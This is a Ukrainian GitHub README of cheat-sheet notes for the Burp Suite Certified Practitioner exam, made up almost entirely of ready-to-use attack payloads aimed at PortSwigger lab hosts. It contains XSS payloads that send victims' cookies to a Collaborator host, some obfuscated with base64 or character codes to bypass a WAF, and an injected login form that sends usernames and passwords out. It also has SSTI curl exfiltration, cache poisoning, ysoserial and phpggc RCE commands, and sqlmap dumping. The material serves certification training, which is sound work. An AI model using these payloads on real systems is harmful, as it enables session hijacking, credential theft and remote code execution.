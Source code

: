 # Burp-exam-notes

>Тут я викладу матеріали які можуть допомогти під час складання екзамену Burp Suite Certified Practitioner Exam. Частину із них я взяв [тут](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner), але як виявилось на практиці не всі вони були готові, деякі варто було допиляти, а деякі змінити, що забрало подекуди багато часу, з огляду на те, що сам екзамен триває 4 години. Тому дуже важливо мати усі ін'єкції робочі та перевірені, і не гаяти часу на їх виправлення під час самого екзамену.
>Корисні підказки для складання екзамену від [PortSwigger](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam)

----

**+eval**
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//

``` 
>тут в base64 передається 
```
fetch("https://collaborator.oastify.com/?cookie="+btoa(document['cookie']))
```
**+eval URL encode**
>тут готова ін'єкція яка повертає відповідно на колаборатор кукі, просто передати script у exploit server
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?SearchTerm=%22%2Beval(atob(%22ZmV0Y2goImh0dHBzOi8vMmNmbTZlMmFpajVmZWQ3ZXl4ZTN3Mnc0dXYwbW9oYzYub2FzdGlmeS5jb20vP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22))}%2F%2F"
</script>
```
**Function`X$**
>-Function`X$ тут у нас ін'єкція із використанням динамічних шаблонів, вміст всередині ${...} виконується під час виконання шаблону.
```
"-Function`X${'document.location="https://collaborator.oastify.com/"+document.cookie'}```-"
```
>адаптована версія із використанням Function`X$, лише передати script у exploit server для отримання cookies
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?find=%22-Function`X${'document.location=%22https://collaborator.oastify.com/%22%2Bdocument.cookie'}```-%22"
</script>
```
**XSS+cookie**
```
<script>document.location='//collaborator.oastify.com/'+document.cookie</script>
```
```
"></select><script>document.location='http://collaborator.oastify.com/?cookie='+document.cookie</script>
```
```
\"-fetch('http://collaborator.oastify.com?c='+btoa(document.cookie))}//
```
```
<><img src=1 onerror="window.location='http://collaborator.oastify.com/c='+document.cookie">
```
```
<script>document.write('<img+src="http://collaborator.oastify.com?c='+document.cookie+'"+/>');</script>
```
```
</script><script>document.location="http://collaborator.oastify.com/?cookie="+document.cookie</script>
```
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?cookie='+document.cookie tabindex=1>#x';
</script>
```
>готова ін'єкція для query параметру, якщо такий вразливий
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
```
\';document.location=`http://collaborator.oastify.com/?cookie=`+document.cookie;//
```
>викликаємо XSS через id=x, якщо задати в посиланні #x
```
<xss id=x onfocus=document.location="http://collaborator.oastify.com/?cookie="+document.cookie tabindex=1>#x
```
>ULR Encoded:
```
%3Cxss%20id=x%20onfocus=document.location=%22http://collaborator.oastify.com/?cookie=%22+document.cookie%20tabindex=1%3E#x
```
>підбір tag та event (є така лабораторна робота у portswigger)
```
<svg><animatetransform onbegin=document.location='https://collaborator.oastify.com/?cookie='+document.cookie;>
```
>URL Encoded:
```
%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://collaborator.oastify.com/?cookie='+document.cookie;%3E
```
>викликаємо XSS через натискання жертвою кнопки x. Повний вигляд такий (для гарячої клавіші shift+X):
```
https://xxxxxx.net/?'accesskey='x'onclick='document.location="https://your-collaborator-url.com/?cookie="+document.cookie' 
```
**WAF**
>трохи спробуємо обійти WAF
```
</ScRiPt ><ScRiPt >document.write('<img src="http://collaborator.oastify.com?c='+document.cookie+'" />');</ScRiPt > 
```
>і передати його у ASCII (можна використовувати цей [сервіс](https://www.allmath.com/ascii-to-text.php), досить зручний)
```
</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
```
```
"-window["alert"](window["document"]["cookie"])-"
```
```
"-self["alert"](self["document"]["cookie"])-"
```
**Angular**
>тут у нас ін'єкція яка застосовується на сторінці із використанням AngularJS. 
constructor.constructor в Angular дає доступ до глобальної функції Function, яка дозволяє створювати і виконувати JavaScript-код у шаблоні. 
```
{{constructor.constructor('document.location="http://collaborator.oastify.com?c="+document.cookie')()}}
```
**XSS+input+cookie**
>ін'єкція для викрадення паролю і логіна користувача, який скористається формою для авторизації. Звісно, сторінка повинна мати вразливість до XSS.
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://collaborator.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
**Iframe**
>частково універсальні для exploit server
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:fetch(\'https://your-collaborator-url.com/\'+document.cookie)','*')">
</iframe>
```
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://your-collaborator-url.com?cookie=${document.cookie}`)>','*')">
</iframe>
```
**SSTI**
```
<%= system("curl https://your-collaborator-url.com/$(cat /home/carlos/secret)") %>
```
```
{{request.cookies.get('session')|urlize('https://your-collaborator-url.com/?cookie=')}}
```
**Web cache poisoning /js/geolocate.js**
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location%3d'https%3a//your-collaborator-url.oastify.com/%3fcookie%3d'%2bdocument.cookie%3b
```
----
**Deserialization**
>під руками повинні бути готові команди, із робочими шляхами де лежать у вас словники або команди які не потребують додаткових налаштувань чи втурчань, а лише зміни посилання на екзамен.
```
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar /path/to/file/ysoserial-all.jar CommonsCollections2 "curl https://collaborator.oastify.com -d@/home/carlos/secret" | gzip -c | base64 -w 0
```
```
/path/to/file/phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
```
**SQLMAP**
>тут шлях досить простий, копіюємо з Network із запиту на пошук "Copy as cURL", а далі лише забираємо curl і додаємо sqlmap -u.
>Зрештою, хто орієнтується із роботою sqlmap, вкурсі що до чого.
```
sqlmap -u 'cURL із Network' -p 'parametr' -batch --dbs --tables -T (тут вказати назву таблиці) --dump
```
**JWT**
```
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/Payload/ [jws_secret.txt](https://github.com/Zavada-Nazarii/burp-exam-notes/blob/main/jws_secret.txt) --force
```
>і ще така штука із docker є, це лаба "JWT authentication bypass via algorithm confusion with no exposed key"
Майте собі піднятий docker і готовий образ, щоб не виправляли під час екзамену трабли із бібліотеками системи.
```
docker run --rm -it portswigger/sig2n JWT_1 JWT_2
```

